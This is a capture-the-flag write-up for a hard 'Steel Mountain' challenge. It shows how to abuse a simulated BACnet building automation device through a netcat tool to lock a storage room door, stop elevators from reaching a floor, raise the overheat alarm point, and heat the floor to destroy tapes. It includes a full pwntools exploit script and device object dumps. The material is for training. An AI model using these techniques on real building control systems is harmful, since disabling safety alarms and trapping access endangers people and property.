

 <font size='10'>Steel Mountain</font>

10<sup>th</sup> Jul 2024

Prepared By: `0xSn4k3000`

Challenge Author(s): `0xSn4k3000`

Difficulty: <font color='red'>Hard</font>

<br><br>

# Synopsis (!)

- Building automation with bacnet protocol
- Automation with python3

## Description (!)

- Steel Mountain is a highly secure facility that provides information management services to major corporations, including E-Corp, We have physically hacked into the facility and planted our own tool within their network. Final Step, Burn the tapes to destroy the data. You will find all you need in the files.


## Skills Required (!)

- A good knowledge of bacnet protocol
- An intermediate knowledge of python3.
- Brief knowledge of building automation

## Skills Learned (!)

- Learn how to exploit bacnet protocol to control building automation devices.

# Solution (!)

## Read the files.

Start by looking into the files you can see two files, first file is Instructions.md and second one is a blueprint of the building, start with the Instructions.md

```text
After reading the blueprints and figure out the level where the Tapes Storage Room is you need to do the following for mission to success.

1. Lock the tape storage room so no one can access the room and physicaly decrease the temperature.
2. After locking the door there is no turn back , the mission is started , You need to deny elevetors from stoping at level 2.
3. Final step, tapes burn at 32°C, you need to set the temperature of the level to 32°C for two minutes for tapes to get damaged. 

NOTE: We have implemented our own tool in the bacnet network , all you need is to connect to it with netcat and you will be able to interact with the device.

When mission is complete you will get the secret in the dashboard.

If you arised an alarm the system will reset in 10 seconds and then you can start again. Good luck.
```

From here we can see that we need to read the blueprints of the building to figure out the level where the Tapes Storage Room is, from the blueprints we can tell it's in level 2.

Also, the Instructions.md tell us that we can interact with the instance port with netcat.

## Interact with the instance.

After running the instance we can see two ports, one of the ports are for netcat, the other is a dashboard we can open in the browser to have a real time information about the building status.



This mean the other port is the tool port, connecting to the port with netcat to reveivce three options.

```text
1. objects
2. bacnet.read
3. bacnet.write

>> 
```

First option return the objects in the device in a json form, we can use chatgpt or a website to beutify the json.

```json
{
  "Temp-L1-10": {
    "ObjectName": "Temp-L1-10",
    "ObjectID": 10,
    "ObjectType": "analogInput",
    "Description": "FL-1-10",
    "presentValue": 21.5
  },
  "Therm-L1-11": {
    "ObjectName": "Therm-L1-11",
    "ObjectID": 11,
    "ObjectType": "analogOutput",
    "Description": "FL-1-11",
    "presentValue": 22.0
  },
  "ACS-L1-12": {
    "ObjectName": "ACS-L1-12",
    "ObjectID": 12,
    "ObjectType": "binaryOutput",
    "Description": "Air Conditioning Stat-L1-13 : [0: OFF , 1: ON]",
    "presentValue": 1
  },
  "OHAP-L1-13": {
    "ObjectName": "OHAP-L1-13",
    "ObjectID": 13,
    "ObjectType": "analogOutput",
    "Description": "Over Heat Alarm Point, FL-1, 30°C",
    "presentValue": 30.0
  },
  "OHA-L1-14": {
    "ObjectName": "OHA-L1-14",
    "ObjectID": 14,
    "ObjectType": "binaryInput",
    "Description": "[0: ALARM OFF , 1: ALARM ON]",
    "presentValue": 0
  },
  "Temp-L2-20": {
    "ObjectName": "Temp-L2-20",
    "ObjectID": 20,
    "ObjectType": "analogInput",
    "Description": "FL-2-20",
    "presentValue": 18.7
  },
  "Therm-L2-21": {
    "ObjectName": "Therm-L2-21",
    "ObjectID": 21,
    "ObjectType": "analogOutput",
    "Description": "FL-2-21",
    "presentValue": 19.0
  },
  "ACS-L2-22": {
    "ObjectName": "ACS-L2-22",
    "ObjectID": 22,
    "ObjectType": "binaryOutput",
    "Description": "Air Conditioning Stat-L2-23 : [0: OFF , 1: ON]",
    "presentValue": 1
  },
  "OHAP-L2-23": {
    "ObjectName": "OHAP-L2-23",
    "ObjectID": 23,
    "ObjectType": "analogOutput",
    "Description": "Over Heat Alarm Point , FL-2 , 25°C",
    "presentValue": 25
  },
  "OHA-L2-24": {
    "ObjectName": "OHA-L2-24",
    "ObjectID": 24,
    "ObjectType": "binaryInput",
    "Description": "[0: ALARM OFF , 1: ALARM ON]",
    "presentValue": 0
  },
  "Temp-L3-30": {
    "ObjectName": "Temp-L3-30",
    "ObjectID": 30,
    "ObjectType": "analogInput",
    "Description": "FL-3-30",
    "presentValue": 19.9
  },
  "Therm-L3-31": {
    "ObjectName": "Therm-L3-31",
    "ObjectID": 31,
    "ObjectType": "analogOutput",
    "Description": "FL-3-31",
    "presentValue": 19.0
  },
  "ACS-L3-32": {
    "ObjectName": "ACS-L3-32",
    "ObjectID": 32,
    "ObjectType": "binaryOutput",
    "Description": "Air Conditioning Stat-L3-33 : [0: OFF , 1: ON]",
    "presentValue": 1
  },
  "OHAP-L3-33": {
    "ObjectName": "OHAP-L3-33",
    "ObjectID": 33,
    "ObjectType": "analogOutput",
    "Description": "Over Heat Alarm Point , FL-3 , 21°C",
    "presentValue": 21.0
  },
  "OHA-L3-34": {
    "ObjectName": "OHA-L3-34",
    "ObjectID": 34,
    "ObjectType": "binaryInput",
    "Description": "[0: ALARM OFF , 1: ALARM ON]",
    "presentValue": 0
  },
  "AHU1": {
    "ObjectName": "AHU1",
    "ObjectID": 201,
    "ObjectType": "multiStateInput",
    "Description": "Roof Air Handling Unit 1, [0: OFF , 1: ON-COOLING, 2: ON-WARMING]",
    "presentValue": 1
  },
  "AHU2": {
    "ObjectName": "AHU2",
    "ObjectID": 202,
    "ObjectType": "multiStateInput",
    "Description": "Roof Air Handling Unit 2, [0: OFF , 1: ON-COOLING, 2: ON-WARMING]",
    "presentValue": 1
  },
  "ELE-1-CF": {
    "ObjectName": "ELE-1-CF",
    "ObjectID": 80,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 1
  },
  "ELE-1-STAT": {
    "ObjectName": "ELE-1-STAT",
    "ObjectID": 81,
    "ObjectType": "multiStateInput",
    "Description": "[current_floor(ELE-1-CF), status[0: stop, 1: moving_up, 2:moving_down] , target_floor(ELE-1-TF)]",
    "presentValue": 0
  },
  "ELE-1-TF": {
    "ObjectName": "ELE-1-TF",
    "ObjectID": 82,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 1
  },
  "ELE-2-CF": {
    "ObjectName": "ELE-2-CF",
    "ObjectID": 83,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 2
  },
  "ELE-2-STAT": {
    "ObjectName": "ELE-2-STAT",
    "ObjectID": 84,
    "ObjectType": "multiStateInput",
    "Description": "[current_floor(ELE-2-CF), status[0: stop, 1: moving_up, 2:moving_down] , target_floor(ELE-2-TF)]",
    "presentValue": 0
  },
  "ELE-2-TF": {
    "ObjectName": "ELE-2-TF",
    "ObjectID": 85,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 2
  },
  "L1-LOBBY-DR": {
    "ObjectName": "L1-LOBBY-DR",
    "ObjectID": 101,
    "ObjectType": "multiStateOutput",
    "Description": "[0: OPEN , 1: CLOSED-UNLOCKED, 2: CLOSED-LOCKED]",
    "presentValue": 1
  },
  "L2-TSR-DR": {
    "ObjectName": "L2-TSR-DR",
    "ObjectID": 102,
    "ObjectType": "multiStateOutput",
    "Description": "[0: OPEN , 1: CLOSED-UNLOCKED, 2: CLOSED-LOCKED]",
    "presentValue": 1
  },
  "L3-SR-DR": {
    "ObjectName": "L3-SR-DR",
    "ObjectID": 103,
    "ObjectType": "multiStateOutput",
    "Description": "[0: OPEN , 1: CLOSED-UNLOCKED, 2: CLOSED-LOCKED]",
    "presentValue": 2
  },
  "Message": {
    "ObjectName": "Message",
    "ObjectID": 500,
    "ObjectType": "binaryOutput",
    "Description": "",
    "presentValue": 0
  }
}
```

Second option used to read object property value.
For example:
```text
1. objects
2. bacnet.read
3. bacnet.write

>> 2

usage: 
>>> object_type object_id property_name

>>> analogOutput 11 presentValue
22.0

```

The final option is used to write to object property. Note that not all objects are writable.

```text
1. objects
2. bacnet.read
3. bacnet.write

>> 3   

usage: 
>>> object_type object_id property_name value

>>> analogOutput 11 presentValue 1
True
```

From objects json looks like it refer to Levels with L, so we can know that any object with L2 is for Level 2.

```json
"L2-TSR-DR": {
    "ObjectName": "L2-TSR-DR",
    "ObjectID": 102,
    "ObjectType": "multiStateOutput",
    "Description": "[0: OPEN , 1: CLOSED-UNLOCKED, 2: CLOSED-LOCKED]",
    "presentValue": 1
}
```

This object must be the Tape Storage Room (TSR) Door, This is a multiStateOutput Which means we can write to it. Also, the description contains a breif of each value meaning. So the door is currently closed but unlocked, which we can verify by looking at the dashboard.

1. Step one: Set L2-TSR-DR with objectId 102 to 2.

Now we need to look at the elevators. 

```json
"ELE-1-CF": {
    "ObjectName": "ELE-1-CF",
    "ObjectID": 80,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 1
  },
  "ELE-1-STAT": {
    "ObjectName": "ELE-1-STAT",
    "ObjectID": 81,
    "ObjectType": "multiStateInput",
    "Description": "[current_floor(ELE-1-CF), status[0: stop, 1: moving_up, 2:moving_down] , target_floor(ELE-1-TF)]",
    "presentValue": 0
  },
  "ELE-1-TF": {
    "ObjectName": "ELE-1-TF",
    "ObjectID": 82,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 1
  },
  "ELE-2-CF": {
    "ObjectName": "ELE-2-CF",
    "ObjectID": 83,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 2
  },
  "ELE-2-STAT": {
    "ObjectName": "ELE-2-STAT",
    "ObjectID": 84,
    "ObjectType": "multiStateInput",
    "Description": "[current_floor(ELE-2-CF), status[0: stop, 1: moving_up, 2:moving_down] , target_floor(ELE-2-TF)]",
    "presentValue": 0
  },
  "ELE-2-TF": {
    "ObjectName": "ELE-2-TF",
    "ObjectID": 85,
    "ObjectType": "analogOutput",
    "Description": "",
    "presentValue": 2
  },
```

Elevators have six objects, each elevetor with three, two analogOutput and one multiStateInput, we can write to the analogOutput, but we can't write to multiStateInput. From the description of STAT Object we can know that it's object that describe the status of the elevator, and the two analogOutput for the levels, TF = Target Floor, CF = Current Floor. 

2. Step 2: Keep reading the Target Floor, if it's point to Level 2 then change it to another level so the elevetor keep moving and never stop at level 2.

Finaly we need to increase the temperature in level 2 to 32 degree or higher for amount of two minutes to damage the tapes.

```json
"Temp-L2-20": {
    "ObjectName": "Temp-L2-20",
    "ObjectID": 20,
    "ObjectType": "analogInput",
    "Description": "FL-2-20",
    "presentValue": 18.7
  },
  "Therm-L2-21": {
    "ObjectName": "Therm-L2-21",
    "ObjectID": 21,
    "ObjectType": "analogOutput",
    "Description": "FL-2-21",
    "presentValue": 19.0
  },
  "ACS-L2-22": {
    "ObjectName": "ACS-L2-22",
    "ObjectID": 22,
    "ObjectType": "binaryOutput",
    "Description": "Air Conditioning Stat-L2-23 : [0: OFF , 1: ON]",
    "presentValue": 1
  },
  "OHAP-L2-23": {
    "ObjectName": "OHAP-L2-23",
    "ObjectID": 23,
    "ObjectType": "analogOutput",
    "Description": "Over Heat Alarm Point , FL-2 , 30°C",
    "presentValue": 25
  },
  "OHA-L2-24": {
    "ObjectName": "OHA-L2-24",
    "ObjectID": 24,
    "ObjectType": "binaryInput",
    "Description": "[0: ALARM OFF , 1: ALARM ON]",
    "presentValue": 0
  },
```
These are the object responsible for the temperature in level 2, the Temp-L2-20 is of type analogInput which mean it can be a sensor, the Therm-L2-21 is analogOutput and the name tell its defenatly the thermostats, we can use the thermostats to control the temperature in the level by set a SetPoint for the heat which the thermostat will do actions to make the temperature equal to the SetPoint.

But before we increase the temperature there are two objects we need to look at.

```json
"OHAP-L2-23": {
    "ObjectName": "OHAP-L2-23",
    "ObjectID": 23,
    "ObjectType": "analogOutput",
    "Description": "Over Heat Alarm Point , FL-2 , 25°C",
    "presentValue": 25
  },
  "OHA-L2-24": {
    "ObjectName": "OHA-L2-24",
    "ObjectID": 24,
    "ObjectType": "binaryInput",
    "Description": "[0: ALARM OFF , 1: ALARM ON]",
    "presentValue": 0
  },
```

As the descriptions tell, these objects are used to control the Alarm logic. 
OHA-L2-24 is just a binaryInput that control the state of the alarm if its on or off, as it's an Input object type we can't control it, but there is OHAP-L2-23 object, its presentValue was set to 25 and the description tell use that it's the point where the alarm arises.

The OHAP-L2-23 object is and Output type object this mean we can control it, if we increased the overheat point for a point more than 32 then the alarm will not arise when we increase the temperature.

3. Step 3: Increase the overheat point for level 2.
4. Step 4: Increase the temperature in level 2.

## Writing the exploitation script.

I will use pwntools library of ease of use. We will create two connections to the instance, one to keep change the elevators level, and the other one to do the rest.

```python
from pwn import *
from threading import Thread
from random import choice

HOST = "0" ; PORT = 1337

io = remote(HOST, PORT)
ele_io = remote(HOST, PORT)


door = ["multiStateOutput", "102"]

ele1 = ["analogOutput", "82"]
ele2 = ["analogOutput", "85"]

therm = ["analogOutput", "21"]
ovhp = ["analogOutput", "23"]

def LockDoor():
    global io, door

    payload = f"{door[0]} {door[1]} presentValue 2"

    io.sendline(b"3")
    sleep(1)
    io.sendlineafter(b">>> " , payload.encode())
    io.clean()
    log.info("Locked the Door of Tape Storage Room")

def DontAllowElevatorsToStopAtLevel2():
    global ele_io, ele1, ele2

    def readTargetFloor(ele):
        ele_io.clean()
        ele_io.sendline(b"2")
        payload = f"{ele[0]} {ele[1]} presentValue"
        ele_io.clean()
        ele_io.sendline(payload.encode())

        value = ele_io.readline().decode().rstrip("\n")
        return value

    while True:
        ele1_targ_level = readTargetFloor(ele1)
        ele2_targ_level = readTargetFloor(ele2)

        if(ele1_targ_level == "2"):
            rc = choice([1, 3])
            payload = f"{ele1[0]} {ele1[1]} presentValue {rc}"
            ele_io.sendline(b"3")
            ele_io.sendlineafter(b">>> ", payload.encode())
            
            log.info("Elevator 1 tried to stop at level 2: moved to " + str(rc))

        elif (ele2_targ_level == "2"):
            rc = choice([1, 3])
            payload = f"{ele2[0]} {ele2[1]} presentValue {rc}"
            ele_io.sendline(b"3")
            ele_io.sendlineafter(b">>> ", payload.encode())

            log.info("Elevator 2 tried to stop at level 2: moved to " + str(rc))

        
def BurnTapesUp():
    global io, ovhp, therm

    def IncreaseOverHeatPoint():
        io.sendline(b"3")
        sleep(1)
        payload = f"{ovhp[0]} {ovhp[1]} presentValue 35"
        io.sendlineafter(b">>> ", payload.encode())
        log.info("Set over heat point to 35 to not araise alarm")

    def SetPointTo33():
        io.sendline(b"3")
        sleep(1)
        payload = f"{therm[0]} {therm[1]} presentValue 33"
        io.sendlineafter(b">>> ", payload.encode())
        log.info("Set point to 33")

    IncreaseOverHeatPoint()
    SetPointTo33()


LockDoor()
ElePois = Thread(target=DontAllowElevatorsToStopAtLevel2)
ElePois.start()

BurnTapesUp()

io.clean()
io.interactive()
```

Use threading library we can create a subthread to keep reading and writing to elevetors.

# Reading the flag.

You can read the flag from the dashboard after two minutes of increasing the temperature.